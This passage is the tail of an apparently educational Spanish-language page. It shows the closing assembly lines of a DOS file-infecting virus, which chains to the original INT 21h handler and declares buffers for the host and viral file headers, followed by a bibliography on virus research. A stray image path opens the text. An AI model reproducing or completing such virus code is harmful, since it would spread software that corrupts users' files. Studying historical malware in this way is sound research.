     pop cx  
    pop bx  
    pop ax  
    popf

handler_old:     
    db 0EAh                                          ; JMP FAR  
    
vector_int21    dw   ?, ?                            ; vector original de INT 21h (4 bytes)
host_head       db   90h, 90h, 90h, 90h              ; buffer para cabezal original  
VIRUS_SIZE      equ  ($ - body)                      ; tamaño del virus  
file_size       dw   ?                               ; buffer temporal para tamaño del huésped  
tmp_head        db   4 dup (?)                       ; buffer temporal para cabezal viral

virus ends  
end start  
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 